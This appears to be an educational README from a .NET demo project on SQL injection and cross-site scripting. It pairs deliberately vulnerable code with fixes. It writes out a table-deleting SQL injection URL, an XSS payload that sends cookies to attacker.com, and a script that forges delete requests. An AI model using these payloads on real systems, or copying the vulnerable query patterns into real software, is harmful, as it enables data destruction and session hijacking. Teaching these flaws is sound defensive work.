 # Typical web app security vulnerabilities
## Injection
Injection flaws are very prevalent, particularly in legacy code. Injection vulnerabilities are often found in SQL, LDAP, XPath, or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages, and ORM queries.
Injection flaws are easy to discover when examining code. Scanners and fuzzers can help attackers find injection flaws.
Injection can result in data loss, corruption, or disclosure to unauthorized parties, loss of accountability, or denial of access. Injection can sometimes lead to complete host takeover.

### Sql Injection sample
Scenario #1: An application uses untrusted data in the construction of the following vulnerable SQL call:

```var sql = "SELECT * FROM product WHERE sku='{sku}' LIMIT 1";```

Scenario #2: Similarly, an application’s blind trust in frameworks may result in queries that are still vulnerable, 
(e.g. EF Core FromSql Method):

```
SecurityWeakness.Infrastructure.SQL.NotSecureProductSqlRepository:

public Product GetSingleBySku(string sku)
{
    var sql = $"SELECT * FROM product WHERE sku='{sku}' LIMIT 1";
    return context.Products.FromSql(sql).ToArray().Single();
}
```

In both cases, the attacker modifies the ‘sku’ parameter value in their browser to send:

``` 
http://localhost:62384/NotSecureProducts/Product?sku=p2';DELETE from product;SELECT '1
```

This changes the meaning of both queries to delete all the records from the product table. More dangerous attacks could modify or delete data, or even invoke stored procedures.

### Secure sample
Rewrite code using Linq Query, or use parameterization for raw SQL queries 
```
SecurityWeakness.Infrastructure.SQL.SecureProductSqlRepository:
public Product GetSingleBySku(string sku)
{
    return context.Products.FromSql($"SELECT * FROM {TableName} WHERE sku={{0}} LIMIT 1", sku).ToArray().Single();
}
```

## Cross-Site Scripting (XSS)
Cross Site Scripting (XSS) is a widespread vulnerability that affects many web applications. XSS attacks consist of injecting malicious client-side scripts into a website and using the website as a propagation method.
XSS is the most prevalent web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. There are two different types of XSS flaws: 1) Stored and 2) Reflected, and each of these can occur on the a) Server or b) on the Client.

Detection of most Server XSS flaws is fairly easy via testing or code analysis. Client XSS is very difficult to identify.

Attackers can execute scripts in a victim’s browser to hijack user sessions, deface web sites, insert hostile content, redirect users, hijack the user’s browser using malware, etc.

### Xss Attack sample
* Hijack a user’s session
The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";```

The attacker modifies the 'CC' parameter in their browser to:

```'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.```

* **asp.net core** protect it cookie from this kind of vulnerability, to enable cookie for document.cookie you need set ``` options.Cookie.HttpOnly=false```
```
    services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.HttpOnly = true;
    });
```

This causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See A8 for info on CSRF.

* Perform unauthorized activities
If the HTTPOnly cookie attribute is set, we cannot steal the cookies through JavaScript. However, using the XSS attack, we can still perform unauthorized actions inside the application on behalf of the user.
```
  <script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:62384/NotSecureProducts/DeleteComment',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('sku=p1&productid=1&commentid=1');
</script>
```

* Phishing to steal user credentials
XSS can also be used to inject a form into the vulnerable page and use this form to collect user credentials. This type of attack is called phishing.

* Capture the key strokes by injecting a keylogger
In this attack scenario we will inject a JavaScript keylogger into the vulnerable web page and we will capture all the key strokes of the user within the current page.

First of all, we will create a separate JavaScript file and we will host it on the attacker controlled server. We need this file because the payload is too big to be inserted in the URL and we avoid encoding and escaping errors

## Resources
* [OWASP .NET](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/DotNet_Security_Cheat_Sheet.md)
* [ASP.NET Core Security](https://docs.microsoft.com/en-us/aspnet/core/security/?view=aspnetcore-2.2)
* [OWASP Top Ten 2017](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2017_Project)
* [Cross Site Scripting (XSS)](https://blog.sucuri.net/2019/01/owasp-top-10-security-risks-part-iv.html)
* [Cross Site Scripting (XSS) Asp net core](https://docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-2.2)
* [xss-attacks-practical-scenarios](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)
* [HTTP only, Secure cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

